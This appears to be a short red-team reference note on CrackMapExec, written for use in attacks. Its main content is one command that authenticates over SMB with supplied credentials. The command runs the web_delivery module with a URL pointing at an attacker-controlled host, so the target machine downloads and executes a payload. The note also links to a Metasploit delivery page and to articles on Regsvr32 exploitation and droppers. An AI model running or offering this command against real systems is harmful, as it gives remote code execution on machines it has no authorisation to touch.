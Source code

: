 # CrackMapExec

## 01 - Web Delivery

- Refer to [[Tactics && Techniques && Procedures (TTPs) Phases/Initial Access/Delivery/Web Drive-by/Metasploit|Metasploit Web Delivery]] module.

`$ crackmapexec smb <IP> -u <username> -p <password> -d <domain_name> -M web_delivery -o URL=http://<attacker_IP>/<URI>`

---
## References

- [Windows Exploitation Regsvr32](https://www.hackingarticles.in/windows-exploitation-regsvr32/)

- [Cross Platform Dropper](https://khast3x.club/posts/2020-06-27-Cross-Platform-Dropper/)
